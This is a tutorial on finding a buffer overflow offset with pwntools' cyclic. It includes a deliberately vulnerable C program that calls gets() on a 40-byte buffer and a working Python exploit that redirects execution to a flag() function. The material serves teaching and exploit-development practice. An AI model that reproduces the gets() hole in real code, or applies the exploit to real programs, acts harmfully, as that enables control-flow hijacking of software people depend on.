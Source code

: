 ## **Offset Calculation in Buffer Overflow Exploits with Cyclic**

### **Overview**

In this document, we demonstrate how to calculate the **offset** in a **buffer overflow** vulnerability using `cyclic` from the **pwntools** library. This process involves generating a cyclic pattern, sending it to the vulnerable program, and then analyzing the core dump to identify where the return address is overwritten. Once the offset is determined, we can exploit the vulnerability by overwriting the return address with the address of a malicious function.

### **Vulnerable Program Example**
```c
#include <stdio.h>

void unsafe() {
    char buffer[40];
    
    puts("Overflow me");
    gets(buffer);  // Vulnerable to buffer overflow
}

void main() {
    unsafe();
}

void flag() {
    puts("Exploited!!!!!");
}
```

### **Exploit Process**

1. **Generate Cyclic Pattern**:
   - The first step in exploiting a buffer overflow is to determine the offset where the return address gets overwritten. We do this by generating a cyclic pattern larger than the buffer size (in this case, the buffer is 40 bytes). This pattern will be used to overwrite the return address.

2. **Send Cyclic Pattern to Program**:
   - Once the pattern is generated, we send it to the vulnerable program. The program will crash after overwriting the return address with a portion of the cyclic pattern.

3. **Analyze Core Dump and Find Offset**:
   - After the program crashes, we analyze the **core dump** to inspect the **EIP** (Extended Instruction Pointer). Using `cyclic_find()`, we can pinpoint where the cyclic pattern begins to overwrite the return address, which gives us the exact **offset**.

4. **Construct Exploit Payload**:
   - After determining the offset, we craft the payload. The payload consists of the cyclic pattern up to the offset, followed by the address of the `flag()` function, which we want to execute when the buffer overflow occurs.

5. **Run the Exploit**:
   - Finally, we send the crafted payload to the vulnerable program, causing it to jump to the `flag()` function and print `"Exploited!!!!!"`.

### **Exploit Code**

```python
from pwn import *

# Setup context
context.binary = './vuln'
context.terminal = ['tmux', 'splitw', '-h']

# Load binary
elf = ELF('./vuln')

# Step 1: Generate a cyclic pattern to determine the offset
p = process('./vuln')
cyclic_pattern = cyclic(100)  # Generate a pattern larger than the buffer size
print(p.recvline().decode())  # Receive initial output
p.sendline(cyclic_pattern)  # Send the cyclic pattern
p.wait()  # Wait for the program to crash
core = p.corefile  # Extract core dump

# Step 2: Find the offset where the EIP is overwritten using cyclic_find
eip_offset = cyclic_find(core.eip)  # Find the offset based on core dump's EIP value
log.info(f"Offset to EIP: {eip_offset}")

# Step 3: Construct the final exploit payload
flag_addr = elf.symbols['flag']  # Address of the flag function

# Payload
payload = b'A' * eip_offset  # Fill up to the return address
payload += p32(flag_addr)  # Overwrite EIP with the flag function's address

# Step 4: Run the exploit with the correct payload
p = process('./vuln')
print(p.recvline().decode())  # Receive initial output
p.sendline(payload)  # Send the payload
p.interactive()  # Get interactive shell to verify the exploit
```

### **Explanation of Code**

1. **Cyclic Pattern Generation**:
   - The `cyclic(100)` generates a cyclic pattern with a size of 100 bytes. This is larger than the buffer (which is 40 bytes) and will ensure that the return address gets overwritten with part of the pattern.

2. **Crash and Core Dump Analysis**:
   - After sending the cyclic pattern, the program crashes. We use the `corefile` to examine the crash and find the EIP value. The `cyclic_find()` function helps us find the exact offset where the pattern starts in the EIP.

3. **Payload Construction**:
   - Once the offset is found, we construct the payload by filling the buffer with `A` characters up to the offset. Then, we append the address of the `flag` function to redirect the program’s execution to it.

4. **Final Exploit Execution**:
   - The payload is sent to the program, which causes the program to jump to the `flag` function and execute the payload, printing `"Exploited!!!!!"`.

### **Final Thoughts**

This method of calculating the offset is one of the fundamental techniques used in buffer overflow exploits. The cyclic pattern helps in pinpointing the exact location where the buffer overflow overwrites the return address, enabling an attacker to hijack the program’s control flow.